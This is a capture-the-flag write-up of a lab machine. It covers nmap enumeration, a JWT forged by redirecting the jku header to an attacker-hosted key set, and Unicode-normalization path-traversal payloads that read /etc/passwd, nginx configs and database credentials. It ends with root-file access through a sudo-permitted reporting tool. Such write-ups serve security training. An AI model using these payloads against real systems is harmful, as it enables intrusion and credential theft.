```yaml
---
title: Unicode
date: 2021-04-09
tags:
  - HTB Writeup
---
```

![Unicode](./Unicode.png)

### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap

Nmap (or network mapper) is a open source tool for Network exploitation and security analysis. Using Nmap, you can scan
one or several hosts for different services running on different ports.
For installing and more info on Nmap , use

```noLineNumbers
sudo apt install nmap
man nmap
```

##### Service Scanning

```noLineNumbers
nmap -Pn -sV -sC 10.10.11.126
```

-sV: Probe open ports to determine service/version info

-sC: equivalent to --script=default

-Pn: Treat all hosts as online -- skip host discovery

```
➜  Unicode git:(master) ✗ nmap -Pn -sV -sC 10.10.11.124  

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-02 13:59 IST
Nmap scan report for 10.10.11.126
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: 503
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.22 seconds


```

We can see a Http server running on Port 80

### Checking on port 80:

We got the site url : ```hackmedia.htb```

![site](./site.png)

Open ```/etc/hosts``` file and add ```10.10.11.126    hackmedia.htb```
```
sudo nano /etc/hosts
```
Register  and login on the portal.

After login we get a portal like this.
![dashboard](./dashboard.png)

We have a upload portal , which allows us to upload a pdf file. I renamed ```php reverse shell``` file to .pdf extension and
uploaded it but seems like that upload can be passed but not executed.

### JWT Token Poisoning
On exploring, found a ```cookie``` with quite a known syntax. The cookie seemed like a ```JWT Token```.

On analysing the cookie with ```jwt.io```,we got the following information.

![jwt](./jwt.png)

Migrated to ```/static/jwks.json``` and found
![jwks](./jwks.png)

We need to generate a private and public rsa key pair with the info in jwks.json file and tamper with the token to login 
as ```Admin```.

Got a resource [here](https://mkjwk.org/) which takes the algo type and kid to generate ```n,e and rsa key pairs.``` 

Enter the valid details and copy the private key and public key in jwt.io.
Change payload as 

```
{
    "user" : "admin"
}
```

And last important step, we need that the site verify the jwt token from the ```n and e```, we have generated. 
So create a ```local jwks.json``` file and paste the n and e obtained in the same file format.

Next we open a ```python http server.```

```
python3 -m http.server
```

and modify the ```jku``` field in the header as follows:

```
{
    "jku" : "http://hackmedia.htb/static/../redirect?url=<your ip where you started python server>"/jwks.json
}
```

The final inputs look as follows and we get the required JWT Token.

![tampered](./tampered.png)

Refresh the page and we get the new dashbaord.

![dash](./dash2.png)

### Path Traversal and USER OWN

Clicking on these two options will take us to url ```http://hackmedia.htb/display/?page=monthly.pdf```

![options](./options.png)

Lets try to see if we can do a directory traversal here.On putting any random url like ```file=\etc\passwd```, we get the following 
response.

![dir](./dir2.png)

This means we need a intelligent query to bypass the filters.
Searched online and found some tricks [here](https://lazarv.com/posts/unicode-normalization-vulnerabilities/) for path traversal.

Used the following method:
```
Directory traversal
︰/︰/︰/etc/passwd
```

and got the response
![traversal](./filter.png)

This means we have bypassed the filter. Lets add more layers to make the searched file existant.

```
Directory traversal
︰/︰/︰/︰/︰/︰︰/︰/︰/etc/passwd
```
and yipee got the folowing response

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin 
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin 
syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin 
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false 
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin 
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin 
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:110:1::/var/cache/pollinate:/bin/false 
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin 
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin 
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin 
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false 
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false 
code:x:1000:1000:,,,:/home/code:/bin/bash

```

Found a user ```code``` in the target machine. Lets use the above path  traversal method to read ```/home/code/user.txt```
and yeah got the user flag.

### MYSQL credentials

Lets find out way to get shell for code user.
We see the target mmachine has mysql service up and running.

Can we read the mysql credentials from any file using the power of path traversal we have??? Hmmm... 

*Nginx* is running MYSQL service on the target machine. Lets read its configuration file to see if we can find out something.

At ```/etc/nginx/nginx.conf``` we found ```/etc/nginx/sites-enabled/default``` file. 

```
limit_req_zone 
$binary_remote_addr zone=mylimit:10m rate=800r/s; 
server{ #Change the Webroot from /home/code/app/ to /var/www/html/ 
#change the user password from db.yaml listen 80; error_page 503 /rate-limited/; location / 
{ limit_req zone=mylimit; proxy_pass http://localhost:8000; include /etc/nginx/proxy_params; proxy_redirect off; } 
location /static/{ alias /home/code/coder/static/styles/; } }
```

Got another path ```/home/code/coder```
Read the db.yaml file from the directory and we  got the credentials for MYSQL.

Using the same password of MYSQL Database for sshing as code.

### System OWN

Ran ```linpeas.sh``` on the target machine and got
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for code on code:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User code may run the following commands on code:
    (root) NOPASSWD: /usr/bin/treport

```

code can run treport service as root.

On running 
```
sudo -u root /usr/bin/treport
```
the following application started.
![treport](./treport.png)

We can use this service as root and also download file. Lets try to download file /root/root.txt. 
As this is local file we will use the url ```file:///root/root.txt``` for downloading the file.

Read the file and yipee we got the root flag.